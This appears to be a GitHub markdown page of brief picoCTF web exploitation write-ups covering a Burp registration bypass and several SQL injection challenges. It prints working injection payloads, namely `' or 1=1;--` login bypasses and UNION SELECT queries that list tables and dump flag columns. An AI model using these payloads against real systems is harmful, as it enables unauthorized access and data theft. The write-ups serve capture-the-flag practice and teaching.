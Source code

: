 ## Web Exploitation

### inspect
  - wget -m -p -E -k -K -np HOST_URL



### picoCTF 2024
#### IntroToBurp
![IntroToBurp question](IntroToBurp-q.png)

> fill "Registration" and in next step don't send "OPT" and [DONE].

---
---
### picoCTF 2023
#### More SQLi
![More SQLi question](MoreSQLi-q.png)

> just inject `' or 1=1;--` in password field.

<br>

> list all of tables with this query : `SomeThings' UNION SELECT name, sql, null from sqlite_master;--`

![all tables](MoreSQLi-1.png)

<br>

> in `more_table` table `flag` cloumn is exist, so we trying to "select flag from more_table" with this query : `SomeThings' UNION SELECT id, flag, 3 from more_table;--` and [DONE].

![flag](MoreSQLi-2.png)

---
---
### picoCTF 2022
#### SQLiLite
![SQLiLite question](SQLiLite-q.png)

> in first step use we trying to login as "admin" user with this request and inject `' or '1'='1';--` in password filed.

![login page](SQLiLite-1.png)

> after login see this massage so we trying to inspect this page and [DONE].

![after log in](SQLiLite-2.png)

---
#### SQL Direct
![SQL Direct question](SQLDirect-q.png)

> i use docker postgres container for connect this PostgreSQL server:

![docker postgres container after connect](SQLDirect-1.png)

> trying to print list of all tables with this query ` \dt+ *.*` to find related table to this question.

![list of tables](SQLDirect-2.png)

> Dump 'flags' tables with this query : `select * from flags` and [DONE].

![flag](SQLDirect-3.png)





